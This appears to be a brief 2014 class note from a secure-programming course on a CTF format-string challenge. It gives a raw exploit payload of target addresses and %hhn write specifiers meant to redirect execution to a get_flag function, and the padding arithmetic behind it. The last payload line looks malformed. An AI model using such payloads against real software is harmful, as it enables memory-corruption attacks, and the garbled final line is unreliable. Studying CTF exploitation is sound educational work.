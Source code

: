 ====================
 Secure Programming
====================

:date: 2014-10-28 19:32
:tags: secprog, ctf, format-string
:category: note
:slug: secure-programming-20141028
:authors: Zespre Schmidt
:about_author: Bug generator
:email: starbops@gmail.com
:summary: 2014/10/28 Secure Programming Class Note

\xdc\xed\xbf\xbf\xdd\xed\xbf\xbf\xde\xed\xbf\xbf\xdf\xed\xbf\xbf%100 c%30$hhn%220c%31$hhn%55c%32$hhn%66c%33$hhn
get_flag(): 0x0804861d
29      %29c
134     %105c
4       %97c
8       %97c
%29c$hhn%105$hhnc%97c$hhn%97c$hhn

